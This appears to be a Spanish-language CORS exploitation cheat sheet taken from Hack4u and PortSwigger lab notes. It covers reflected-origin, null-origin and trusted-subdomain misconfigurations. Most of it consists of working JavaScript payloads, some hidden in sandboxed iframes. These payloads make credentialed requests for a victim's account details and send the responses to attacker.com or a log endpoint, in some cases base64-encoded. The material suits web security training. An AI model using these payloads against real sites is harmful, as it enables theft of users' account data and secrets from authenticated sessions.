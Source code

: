 ```yaml
---

### 🌐 **CORS (Cross-Origin Resource Sharing) Cheat Sheet**  

---
```

---

## **Payloads y Ataques Relacionados**

### **Lab 1: Origin Manipulation**
**Request:**
```http
Origin: https://gustavo.com
```
**Response:**
```http
Access-Control-Allow-Origin: https://gustavo.com
Access-Control-Allow-Credentials: true ---> Permite que el navegador envie cookies, tokens de sesions, etc.
```

**Exploitation:**

*Payload Hack4u*
```javascript
<script> 
	var req = new XMLHttpRequest();
	req.onload = function() {
		location = "https://attacker.com/?data=" + btoa(req.responseText);
	};	
	req.open("GET","https://target.com/accountDetails",true);
	req.withCredentials = true;
	req.send();
</script>
```

*Payload Portswigger*
```javascript
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://target.com/accountDetails', true);
  xhr.withCredentials = true;
  xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE) {
      fetch('/log?data=' + xhr.responseText);
    }
  };
  xhr.send(null);
</script>
```

---

### **Lab 2: Origin Null Bypass**
**Request:**
```http
Origin: null
```
**Response:**
```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**Exploitation:**

- **`allow-scripts`** ---> te da la capacidad de correr tu código JS en el iframe.

- **`srcdoc`** ---> te mete directamente el payload JS sin necesidad de un archivo externo.

- **`Sin allow-same-origin`** ---> mantenés el origen nulo, que es lo que explota la falla CORS.

*Payload hack4u*
```javascript
<iframe style="display: none;" sandbox="allow-scripts" srcdoc="
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://target.com/accountDetails', true);
  xhr.withCredentials = true;
  xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE) {
      fetch('https://attacker.com/log?data=' + xhr.responseText);
    }
  };
  xhr.send(null);
</script>"></iframe>
```

*Payload Portswigger*
```javascript
<iframe style="display: none;" sandbox="allow-scripts" srcdoc="
<script> 
	var req = new XMLHttpRequest();
	req.onload = function() {
		location = 'https://attacker.com/?data=' + btoa(req.responseText);
	};	
	req.open('GET','https://target.com/accountDetails',true);
	req.withCredentials = true;
	req.send();
</script>"></iframe>
```

---

### **Lab 3: Subdomain Takeover with CORS**
**Request:**
```http
Origin: https://gustavo.target.com
```
**Response:**
```http
Access-Control-Allow-Origin: https://gustavo.target.com
Access-Control-Allow-Credentials: true
```

**Exploitation:**
- Tomar control del subdominio gustavo.target.com (subdomain takeover) o inyectar JavaScript mediante XSS en ese origen. Desde allí, aprovechar la configuración insegura de CORS para realizar peticiones autenticadas al dominio principal y exfiltrar datos sensibles (ej. API keys, información de cuenta) usando los payloads anteriores.
---

